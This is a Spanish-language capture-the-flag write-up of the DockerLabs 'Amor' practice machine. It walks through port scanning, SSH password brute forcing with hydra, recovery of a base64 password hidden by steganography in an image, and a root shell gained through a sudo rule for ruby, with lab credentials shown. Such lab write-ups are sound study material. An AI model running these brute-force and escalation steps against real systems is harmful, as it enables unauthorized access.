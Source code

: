 # Máquina Amor

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

------------------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p22,80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e72b68b5f7c2364dc1521325fce400a (ECDSA)
|_  256 058aa7270f88b97084ec6d33dcce096f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: SecurSEC S.L
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Accedemos a la web para inspeccionarla:

![Pasted image 20240427175903](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/404422b7-1efc-4b05-b538-c53b5950968c)

Encontramos información importante como un par de usuarios, **carlota** y **juan**. Y que hay usuarios en el sistema con contraseñas débiles.

--------------
## Explotación

Aplicamos fuerza bruta con **hydra** sobre los usuarios:

```shell
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
-------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
```

Encontramos las credenciales de carlota -> **carlota:babygirl**
Accedemos por ssh:

```shell
ssh carlota@172.17.0.2
```

Estamos dentro !

------------------------------
## Escalada de privilegios

En el directorio **/home/Desktop/fotos/vacaciones** de Carlota encontramos una imágen.

Nos la descargaremos para verla. Podemos usar **scp**:

```shell
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/albertomarcostic/Desktop/DockerLabs/Amor/content
```

Veremos si tiene algo oculto con la herramienta **steghide**:

```shell
steghide --extract -sf imagen.jpg
--------------------------------------
datos extrados e/"secret.txt".
```

Obtenemos un **secret.txt** con la siguiente información -> **ZXNsYWNhc2FkZXBpbnlwb24=**

Tiene pinta de **base64** así que lo decoficamos:

```shell
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
-------------------------------------------------------
eslacasadepinypon
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en **root**:

```shell
su oscar
```

Conseguimos migrar al usuario **oscar**.
Ejecutamos **sudo -l** para ver si podemos ejecutar algo como otro usuario o como **root**:

```shell
sudo -l
------------------------------------------------
User oscar may run the following commands on 6ba86e9dc48a:
    (ALL) NOPASSWD: /usr/bin/ruby
```


Podemos ejecutar **ruby** como el usuario **root**, si no sabemos como abusar de esto, siempre podemos recurrir a [GTFOBins]()

```shell
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo en la máquina.

```shell
cat /root/Desktop/THX.txt
-------------------------------
Gracias a toda la comunidad de Dockerlabs y a Mario por toda la ayuda proporcionada para poder hacer la máquina.
```
